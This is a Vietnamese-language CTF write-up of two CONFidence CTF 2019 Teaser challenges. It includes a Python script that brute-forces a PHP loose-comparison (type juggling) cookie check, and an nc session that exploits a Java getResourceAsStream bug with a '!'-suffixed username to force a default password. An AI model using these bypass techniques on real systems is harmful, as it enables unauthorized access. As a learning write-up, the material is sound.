 ```yaml
---
layout: post
comments: true
title: CONFidence CTF 2019 Teaser
categories: ['2019']
---
```

Giải do team p4 tổ chức, và tất nhiên là rất chất lượng. Nhưng là mới chỉ là Teaser thôi nên mình vẫn chưa ngập hành. 


![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con1.png "CONFidence CTF 2019")

# My admin panel (WEB)
[Link Challenge](https://gameserver.zajebistyc.tf/admin/)

Vào challenge mình thấy có ngay 2 file là login.php và login.php.bak (File Backup)

![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con2.png "/admin")

Nội dung file index.php.bak

```PHP
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Đọc hiểu code thì nó sẽ lấy giá trị của cookie `otadmin` check xem có dạng /^{"hash": [0-9A-Z\"]+}$/ hay là không
Nói dễ hiểu hơn thì cookie sẽ phải có dạng json {"hash" : "abcxyz123jj"} thì pass cái if 1 và if 2 if 3
để pass cái if thứ 4 thì cái giá trị của hash khi parse vào phải bằng với giá trị của `strtoupper(MD5($cfg_pass))`

Nếu không thể pass if 4 nó sẽ gợi ý cho mình bằng function sau 

```PHP

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Output:

```
0 0 0 64 64 64 0 64 0 0 64 0 0 0 64 64 64 64 0 0 0 64 0 0 64 0 64 0 64 64 0 0
```

Sau 1 hồi nghịch ngợm với cái đống này thì mình phát hiện ra 1 điều 
Nếu `ord(MD5($cfg_pass)[$i])` return từ 0 - 63 thì `ord(MD5($cfg_pass)[$i]) & 0xC0` = 0
Còn lại thì sẽ ra 64, điều đó đồng nghĩa với việc với 1 mỗi 1 con số từ 0-9 -> sẽ có 1 số 0 
và nếu là kí tự , thì sẽ có số 64 
So sánh với Output ở trên mình sẽ có 3 giá trị đầu tiên là number , và giá trị thứ 4 là character 

Tất nhiên là không thể brute được cái cfg_pass là gì, làm gì có cái mùa xuân đó, nếu brute được thì chắc mất cả năm 
Nên mình nhìn lại toàn bộ source code 1 lần nữa thì dòng này khiến cho mình chú ý 

```PHP
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

Tại sao là `!=` chứ không phải là `!==` ? PHP Type Juggling ? Trùng hợp là 3 kí tự đầu tiên lại là number 
Chắc chắn là Type Juggling 

Solution: 

```python
import requests,json
def bruteCookie(i):
    url = "https://gameserver.zajebistyc.tf/admin/login.php"
    cookie = json.dumps({
        "hash" : (i)
    })
    cookie = {"otadmin" : cookie}
    print (cookie)
    answer = requests.get(url,cookies=cookie)
    if not "I CAN EVEN " in answer.text:

        print answer.text


for i in range(1,999):
    bruteCookie(i)
```

Flag : `p4{wtf_php_comparisons_how_do_they_work}`

# Sloik (MISC)

```
nc sloik.zajebistyc.tf 30001
```
Cho 2 file source, 1 file py, 1 file jar

Source Python:

```python
import os
import shutil
import signal
import subprocess
import sys

cwd = os.getcwd()
sandbox_name = ''


def cleanup(a, b):
    global sandbox_name
    if sandbox_name != '':
        sandbox_path = os.path.join(cwd, sandbox_name)
        if os.path.exists(sandbox_path):
            shutil.rmtree(sandbox_path)


def main():
    global sandbox_name
    signal.signal(signal.SIGALRM, cleanup)
    signal.alarm(10)

    print "username: ",
    sys.stdout.flush()
    sandbox_name = sys.stdin.readline().strip()
    sandbox_path = os.path.join(cwd, "sandbox", os.path.basename(sandbox_name))

    if os.path.exists(sandbox_path):
        print "Sorry, this name is taken"
        exit(1)
    else:
        os.mkdir(sandbox_path)
        java_app = 'sloik-1.0-SNAPSHOT-jar-with-dependencies.jar'
        shutil.copy(java_app, sandbox_path)
        flag_data = open('flag.txt','r').read()
        os.chdir(sandbox_path)
        subprocess.call(['java', '-Xmx8m', '-jar', java_app], stdin=sys.stdin, stdout=sys.stdout, stderr=sys.stderr, env={'flag': flag_data})
    os.chdir("../")
    cleanup("","")


main()
```

Source Java:

```java
/* 
 * Decompiled with CFR 0.140.
 */
package team.p4.sloik;

import java.io.InputStream;
import java.io.PrintStream;
import java.util.Properties;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {      
        Properties properties = new Properties(); 
        try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
        Scanner sc = new Scanner(System.in);
        System.out.println("Password:");
        String password = sc.nextLine();
        if (password.equals(properties.get("password"))) {
            System.out.println("Welcome admin, flag is: " + System.getenv("flag")); 
        }
    }
}
```

À, bài này nó cho file jar để đọc Code file jar thì mình xài [CFR](https://www.benf.org/other/cfr/)

ok nhìn vào thì khi nc tới server của nó, nó sẽ bắt mình nhập 2 thông tin là username và password
Username khi mình nhập vào nó sẽ dùng để tạo 1 folder ở server của nó, rồi copy cái file jar trên vào rồi check tiếp 
Nhìn qua file java thì nếu password trùng với password trong file config của nó thì ra flag 

```java
try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
```

Nhưng mà cái ở đây mình để ý là phần catch Exception, thầy dạy Java của mình ở trường đã bảo là khi code có vô số trường hợp xảy ra mà người lập trình không thể dự tính trước được thì sẽ catch lại bằng cái Exception 

Sẽ không có vấn đề gì với cái code này nếu người ra đề không phải là team p4
Thử Google 1 chút với keyword `getResourceAsStream jar throw exception report bug java` thì tìm dc [Link](https://bugs.java.com/bugdatabase/view_bug.do?bug_id=4523159) này, do team p4 report luôn

Đại loại bug này là nếu mình thêm `!` vào sau cái tên directory thì khi `getResourceAsStream` parse vào sẽ quăng Exception 
Nếu bị quăng Exception thì sao? password sẽ được set thành `default` 
```
matuhn@SE130149:/mnt/d/ctf/tool/jd-gui$ nc sloik.zajebistyc.tf 30001
username: z3r0_n1ght!
Password:
default
Welcome admin, flag is: p4{fire_exclamation_mark_fire_exclamation_mark}
```


